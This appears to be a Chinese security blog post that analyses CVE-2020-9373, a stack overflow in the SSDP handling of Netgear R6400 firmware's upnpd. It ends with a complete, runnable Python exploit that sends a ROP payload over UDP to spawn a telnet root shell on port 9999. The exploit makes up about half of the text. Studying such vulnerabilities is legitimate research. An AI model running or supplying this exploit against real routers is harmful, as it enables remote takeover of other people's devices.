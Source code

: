 在libupnp的基础上，再看看别的upnp实现，同样的出现漏洞的位置大都是处理相关的cgi，而和本身没有太大的关系。

### CVE-2020-9373

熟悉的Netgear设备，该设备的R6400等多个固件版本中存在栈溢出漏洞。发送构造好的ssdp数据包可能导致Dos或Rce。

这个洞原理也非常简单，首先还是先拿固件下来，按照漏洞描述拿下了1.0.32版本的固件，官网也可以下再开源的GPL源码，方便阅读。

目标漏洞程序是/usr/sbin下的upnpd，整体的实现和libupnp应该差不多，由于是ssdp出问题了，搜索相关的字符串，ssdp:discover之类的，查看ssdp头部数据处理。

![Pasted image 20220819090105.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7ece7df26f892d1e255e50ee441f5c63782359f0.png)  
刚进去函数就看到一个大大的strcpy，v39只有12个字节，如果src比这个大就可以溢出。  
回溯了以下src，发现貌似，直接传数据就可以触发漏洞，因为头部处理还在strcpy之下。

![Pasted image 20220819090725.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-86b938b64a69f16c4473c0ad8b02de250edd6cf9.png)

![Pasted image 20220819090742.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3f46a24d3b2a83fe2177ea805875807cbeb411d3.png)  
exp：就是照着arm下面的ret2libc打就行，调试可能麻烦一点，发送pwntools的payload，然后看寄存器，确定偏移，然后ret2shellcode。

```python
import sys
import socket
import time
addr_r7 = \
b"\xcc\x04\x10\x40" # if this address readble, RCE; otherwise DOS;

addr_rop0 = \
b"\x24\x91\x01\x00"

addr_rop1 = \
b"\xcc\x04\x10\x40" \
b"\x41\x41\x41\x41\x41\x41\x41\x41" \
b"\x8f\x9c\x06\x00\x1e\x00\x00\x00" \
b"\xcc\x04\x10\x40\xcc\x04\x10\x40" \
b"\xcc\x04\x10\x40\xcc\x04\x10\x40" \
b"\xcc\x04\x10\x40\xcc\x04\x10\x40" \
b"\xe4\xce\x00\x00"

addr_rop2 = \
b"\x78\x78\x01\x00"

cmd = \
b"telnetd -F -l /bin/sh -p 9999;" \
b"\x00"

data = b"\x41"*0x604 + \
addr_r7 + b"\x41"*0x28 + addr_rop0 + \
b"\x61"*0x258 + addr_rop1 + cmd + \
b"\x41"*0x3ed + addr_rop2
def send_ssdp(ip, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((ip, port))
    sock.send(data)

def usage():
    print("python3 %s ip port(1900)" % sys.argv[0])

if __name__ == "__main__":
    if len(sys.argv) != 3:
        usage()
    else:
        send_ssdp(sys.argv[1], int(sys.argv[2]))
```

